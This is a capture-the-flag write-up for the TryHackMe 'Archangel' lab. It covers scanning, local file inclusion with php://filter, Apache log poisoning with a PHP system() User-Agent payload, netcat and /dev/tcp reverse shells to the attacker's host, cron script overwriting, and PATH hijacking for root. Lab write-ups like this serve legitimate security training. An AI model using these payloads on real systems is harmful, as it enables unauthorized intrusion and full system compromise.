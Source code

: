 # Archangel

**Room Link:** [https://tryhackme.com/room/archangel](https://tryhackme.com/room/archangel)



### Initial Scan

**Kali**

<pre><code><strong>nmap -A $VICTIM
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (76).png" alt=""><figcaption></figcaption></figure>





### Scan all ports

No other ports found

**Kali**

<pre><code><strong>nmap -sV -sT -O -p 1-65535 $VICTIM
</strong></code></pre>

### TCP/80 - HTTP

**Kali**

```
gobuster dir -u http://$VICTIM -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt
```

<figure><img src="../../.gitbook/assets/image (153).png" alt=""><figcaption></figcaption></figure>





<figure><img src="../../.gitbook/assets/image (31).png" alt=""><figcaption></figcaption></figure>



I added mafialive.thm to my host file and tried visiting the browser from there

**Kali**

```
subl /etc/hosts
```



<figure><img src="../../.gitbook/assets/image (64).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
gobuster dir -u http://mafialive.thm -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt
```

<figure><img src="../../.gitbook/assets/image (79).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../.gitbook/assets/image (150).png" alt=""><figcaption></figcaption></figure>







**Kali**

```
curl -s http://mafialive.thm/test.php?view=php://filter/convert.base64-encode/resource=/var/www/html/development_testing/test.php

echo "CQo8IURPQ1RZUEUgSFRNTD4KPGh0bWw+Cgo8aGVhZD4KICAgIDx0aXRsZT5JTkNMVURFPC90aXRsZT4KICAgIDxoMT5UZXN0IFBhZ2UuIE5vdCB0byBiZSBEZXBsb3ll
ZDwvaDE+CiAKICAgIDwvYnV0dG9uPjwvYT4gPGEgaHJlZj0iL3Rlc3QucGhwP3ZpZXc9L3Zhci93d3cvaHRtbC9kZXZlbG9wbWVudF90ZXN0aW5nL21ycm9ib3QucGhwIj48YnV0dG9uIGlkPSJzZWNyZXQiPkhl
cmUgaXMgYSBidXR0b248L2J1dHRvbj48L2E+PGJyPgogICAgICAgIDw/cGhwCgoJICAgIC8vRkxBRzogdGhte2V4cGxvMXQxbmdfbGYxfQoKICAgICAgICAgICAgZnVuY3Rpb24gY29udGFpbnNTdHIoJHN0ciwg
JHN1YnN0cikgewogICAgICAgICAgICAgICAgcmV0dXJuIHN0cnBvcygkc3RyLCAkc3Vic3RyKSAhPT0gZmFsc2U7CiAgICAgICAgICAgIH0KCSAgICBpZihpc3NldCgkX0dFVFsidmlldyJdKSl7CgkgICAgaWYo
IWNvbnRhaW5zU3RyKCRfR0VUWyd2aWV3J10sICcuLi8uLicpICYmIGNvbnRhaW5zU3RyKCRfR0VUWyd2aWV3J10sICcvdmFyL3d3dy9odG1sL2RldmVsb3BtZW50X3Rlc3RpbmcnKSkgewogICAgICAgICAgICAJ
aW5jbHVkZSAkX0dFVFsndmlldyddOwogICAgICAgICAgICB9ZWxzZXsKCgkJZWNobyAnU29ycnksIFRoYXRzIG5vdCBhbGxvd2VkJzsKICAgICAgICAgICAgfQoJfQogICAgICAgID8+CiAgICA8L2Rpdj4KPC9i
b2R5PgoKPC9odG1sPgoKCg==" | base64 -d

```



<figure><img src="../../.gitbook/assets/image (75).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
curl -s http://mafialive.thm/test.php?view=/var/www/html/development_testing/..//..//..//..//..//..//etc/passwd
```

<figure><img src="../../.gitbook/assets/image (152).png" alt=""><figcaption></figcaption></figure>

### Burpe Request

By changing the user agent I was able to start running commands&#x20;

Before

```
GET /test.php?view=/var/www/html/development_testing/..//..//..//../var/log/apache2/access.log HTTP/1.1
Host: mafialive.thm
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/109.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1

```

After

```
GET /test.php?view=/var/www/html/development_testing/..//..//..//../var/log/apache2/access.log&cmd=whoami HTTP/1.1
Host: mafialive.thm
User-Agent: <?php system($_GET['cmd']); ?>
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
```

<figure><img src="../../.gitbook/assets/image (83).png" alt=""><figcaption></figcaption></figure>



### Reverse Shell

**Kali**

```
nc -lvnp 1337
```

**Command being sent**

```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc $KALI 1337 >/tmp/f
```

**Burp request**

Only notable thing is to url encode the command being sent

```
GET /test.php?view=/var/www/html/development_testing/..//..//..//../var/log/apache2/access.log&cmd=rm+/tmp/f%3bmkfifo+/tmp/f%3bcat+/tmp/f|sh+-i+2>%261|nc+10.10.125.248+1337+>/tmp/f+ HTTP/1.1
Host: mafialive.thm
User-Agent: <?php system($_GET['cmd']); ?>
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
```

Get autocomplete

```
python3 -c 'import pty; pty.spawn("/bin/bash")'
ctrl + Z
stty raw -echo;fg
```

<figure><img src="../../.gitbook/assets/image (129).png" alt=""><figcaption></figcaption></figure>





### Shell - archangel

**Kali**

```
nc -lvnp 1338
```

**Victim**

```
cat /etc/crontab
cat /opt/helloworld.sh
echo '#!/bin/bash' > /opt/helloworld.sh
echo "sh -i >& /dev/tcp/$KALI/1338 0>&1" >> /opt/helloworld.sh
```

<figure><img src="../../.gitbook/assets/image (13) (1) (4).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (43).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (117).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Get autocomplete

```
python3 -c 'import pty; pty.spawn("/bin/bash")'
ctrl + Z
stty raw -echo;fg
```

### Privilege Escalation

**Victim**

<pre><code><strong>file backup
</strong><strong>strings backup 
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (151).png" alt=""><figcaption></figcaption></figure>

We can see with strings that the program is running a cp command but it isn't using the full pathm we can use this.

<figure><img src="../../.gitbook/assets/image (149).png" alt=""><figcaption></figcaption></figure>

**Victim**

```
cat > cp << EOF
> #!/bin/bash
> /bin/bash -i
> EOF
chmod +x cp
export PATH=/home/archangel/secret:$PATH
./backup 
```

<figure><img src="../../.gitbook/assets/image (6) (3).png" alt=""><figcaption></figcaption></figure>



























